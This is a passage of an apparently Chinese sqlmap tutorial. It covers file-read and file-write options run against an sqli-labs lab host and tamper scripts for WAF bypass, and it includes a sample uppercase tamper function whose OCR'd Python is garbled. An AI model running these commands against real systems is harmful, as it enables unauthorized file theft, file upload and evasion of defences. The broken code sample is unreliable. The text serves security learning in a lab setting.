 [sqlmap Getshell 让你离shell更近一步 --os-shell - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/58007573)
[(140条消息) sqlmap --os-shell 原理详解_ZredamanJ的博客-CSDN博客_os shell](https://blog.csdn.net/qq_61237064/article/details/124154956)


## 7、--file-read:从数据库服务器中读取文件

该命令用于读取执行文件，当数据库为MySQL、PostgreSQL或Microsoft SQL Server,并且当前用户有权限使用特定的函数时，读取的文件可以是文本，也可 以是二进制文件.下面以Microsoft SQL Server 2005为例，复习--file-read参数的 用法。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") \\ --file-read "C:/key.php" -v 1

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F6493e04efa73997a3c1049fbb347e729.png)

如图，目标服务器的test.txt文件保存到了本地，可进入查看

8.--file-write --file-dest:上传文件到数据库服务器中

该命令用于写入本地文件到服务器中，当教据库为MySQL、PostgreSQL或Microsoft SQL Server,并且当前用户有权限使用特定的函数时，上传的文件可以是文本，也可以是二进制文件。下面以f MySQL的例子复习--file-write --file-dest参数的用法。

sqlmap.py -u [http://192.168.98.100/sqli-labs/Less-1/?id=1](http://192.168.98.100/sqli-labs/Less-1/?id=1 "http://192.168.98.100/sqli-labs/Less-1/?id=1") --file-write "C:/Users/cuiyi/Desktop/1.txt" --file-dest "C:/2.txt" -v 1

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F8575f7bf463b4e8e27027eb881c6bb64.png)

如图，把本地桌面的1.txt文件上传到服务器C盘下，命名为2.txt

# SQLMap自带绕过脚本tamper的讲解

SQLmap在默认情况下除了使用CHAR ()函教防止出现单引号，没有对注入的数据进行修改，读者还可以使用--tamper参数对数据做修改来绕过WAF等设备, 其中大部分脚本主要用正则模块替换攻击载荷字符编码的方式尝试绕过WAF的检测规则，命令如下所示。

sqlmap.py http://example.com --tamper "模块名"

目前官方提供53个绕过脚本，下面是tamper脚本的格式。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F526ade72f7eb8dd552854dfd14339db9.png)

不难看出，一个最小的tamper脚本结构为priority变量定义和

dependencies, tamper函数定义。

###  priority定义脚本的优先级，用于有多个tamper脚本的情况。

###  dependencies函数声明该脚本适用/不适用的范围，可以为空。

下面以一个转大写字符绕过的脚本为例，tampe绕过脚本主要由dependencies和tamper两个函数构成。def tamper (payload, \*\*kwargs)函数接收playload和\*\*kwargs返回一个Payload。下面这段代码的意思是通过正则匹配所有字符，将所有攻击载荷中的字符转换为大写字母。


``` python
**def tamper(payload, ### ### kwargs): retVai** **\=** **payload**

**if payload****:**

**for match in re.finditer(r"\[A-Za-z\_\]+", retVal****)****:**

**word =** **match.group()**

**if word.upper() in kb.keywords:**

**retVal =** **retVal・replace(word, word.upper())**

**return retVal**
```
